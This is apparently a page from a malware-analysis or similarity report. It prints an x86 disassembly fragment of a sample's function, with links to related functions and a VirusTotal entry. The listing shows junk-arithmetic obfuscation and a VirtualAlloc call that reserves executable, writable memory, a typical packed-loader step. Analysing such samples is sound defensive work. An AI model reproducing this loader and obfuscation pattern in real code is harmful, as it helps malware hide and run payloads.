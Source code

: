mov eax,dword[ebp-0x3c]
add eax,0x257
mov dword[ebp-0x6c],eax
mov eax,0x1ca
sub eax,dword[ebp-0xc0]
mov dword[ebp-4],eax
mov dword[ebp-0x34],0x12b
mov dword[ebp-0x94],0x315
mov eax,dword[ebp-0x88]
add eax,0x354
mov dword[ebp-0x98],eax
mov eax,dword[ebp-0x34]
add eax,0xd
mov dword[ebp-0x34],eax
mov eax,dword[ebp-0x20]
sub eax,0x9a
mov dword[ebp-0xc],eax
mov dword[ebp-0x78],0x328
cmp dword[ebp-0x34],0x145
jb 0x40178b
cmp dword[ebp-0x4c],0
jbe 0x4017e4
cmp dword[ebp-0x80],0x1ae
ja 0x4017e4
cmp dword[ebp-0x64],0x3a0
jbe 0x4017e4
mov eax,dword[ebp-0x44]
add eax,dword[ebp-4]
add eax,dword[ebp-0x74]
mov dword[ebp-0x10],eax
mov eax,dword[ebp-0x44]
sub eax,dword[ebp-0xc]
sub eax,0x243
mov dword[ebp-0x14],eax
push 0x40
push 0x3000
push 0xb1523
push 0
call dword[sym.imp.KERNEL32.dll_VirtualAlloc]
mov dword[ebp-0xb8],eax
mov eax,0x32d
sub eax,dword[ebp-0xc]
mov dword[ebp-0x10],eax
mov eax,0x3ee
sub eax,dword[ebp-0xa4]
mov dword[ebp-0x30],eax
mov eax,dword[ebp-0x58]
sub eax,0x48b
mov dword[ebp-0x20],eax
cmp dword[ebp-0x10],0x117
jae 0x401853
cmp dword[ebp-0x8c],0x101
je 0x401853
mov eax,0x168
sub eax,dword[ebp-0x98]
mov dword[ebp-0x44],eax
mov dword[ebp-0x34],0x119
and dword[ebp-4],0
jmp 0x401867
mov eax,dword[ebp-4]
inc eax
mov dword[ebp-4],eax
cmp dword[ebp-4],2
jae 0x401876

[similar_1_ref]: /report/fcn.0040615f@4b23380b9a3d725ff34b4863334d2fd1
[similar_2_ref]: /report/fcn.00402059@01be4434cc5f975da87a4b25d209e100
[similar_3_ref]: /report/fcn.004019c0@822bd70a7e59afd84455835a1bb2835c
[similar_4_ref]: /report/fcn.004019c0@0d5d2680c491fd3e22958d5e1bdb33a4
[similar_5_ref]: /report/fcn.00401c68@decdedd4c31309313b81ab896d055b39
[virustotal_ref]: https://www.virustotal.com/gui/file/3f6c02c16780eca45d2b97909bcaf669